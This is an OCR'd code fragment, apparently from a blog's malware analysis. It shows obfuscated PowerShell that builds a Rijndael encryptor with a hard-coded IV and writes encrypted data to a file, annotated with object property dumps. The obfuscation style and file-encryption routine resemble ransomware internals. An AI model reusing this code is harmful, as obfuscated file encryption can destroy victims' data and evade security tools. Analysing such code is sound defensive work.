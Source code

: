 		LegalKeySizes   : {System.Security.Cryptography.KeySizes}
		LegalBlockSizes : {System.Security.Cryptography.KeySizes} #>

        $r = &("{2}{1}{0}{3}" -f 'b','O','new-','ject') ("{10}{5}{1}{0}{9}{3}{6}{7}{2}{4}{8}"-f'ecurit','.S','dae','gr','lMan','ystem','aphy.Rij','n','aged','y.Crypto','S')
		
		#c=
<# 		CanReuseTransform CanTransformMultipleBlocks InputBlockSize OutputBlockSize
----------------- -------------------------- -------------- ---------------
             True                       True             16              16 #>

		
        $c = $r.('Cre'+'ateEn'+'cry'+'pto'+'r').Invoke($drt, (1..16))
		#ms = 
<# 		CanRead      : True
		CanSeek      : True
		CanWrite     : True
		Capacity     : 0
		Length       : 0
		Position     : 0
		CanTimeout   : False
		ReadTimeout  : 
		WriteTimeout :  #>

        $ms = &("{2}{1}{0}"-f 'ct','bje','new-O') ("{3}{1}{0}{2}"-f 't','O.MemoryS','ream','I')
		
		#cs= 
		<# CanRead              : False
		CanSeek              : False
		CanWrite             : True
		Length               : 
		Position             : 
		HasFlushedFinalBlock : False
		CanTimeout           : False
		ReadTimeout          : 
		WriteTimeout         :  #>


		
		
        $cs = &("{0}{1}{2}" -f'n','ew-','Object') ("{2}{4}{5}{0}{7}{1}{9}{3}{8}{6}" -f'Cry','g','S','Crypt','ecuri','ty.','am','pto','oStre','raphy.') $ms,$c,("{0}{1}"-f'W','rite')
		
        $sw = &("{1}{2}{0}"-f 't','new','-Objec') ("{0}{2}{4}{1}{3}" -f 'IO','am','.Str','Writer','e') $cs
		
<# 		AutoFlush      : False
		BaseStream     : System.Security.Cryptography.CryptoStream
		Encoding       : System.Text.UTF8Encoding
		FormatProvider : en-US
		NewLine        :  #>

		#Write stuff to the file -> Encryption
        $sw.('Writ'+'e').Invoke($stuff)
        $sw.('C'+'lose').Invoke()
        $cs.('C'+'lose').Invoke()
        $ms.('Clos'+'e').Invoke()
        $r.('Clea'+'r').Invoke()
        [byte[]]$uts = $ms.('ToAr'+'ray').Invoke()
        [io.file]::('W'+'rite'+'Al'+'l'+'Bytes').Invoke($ert,$uts)
{% endhighlight %}
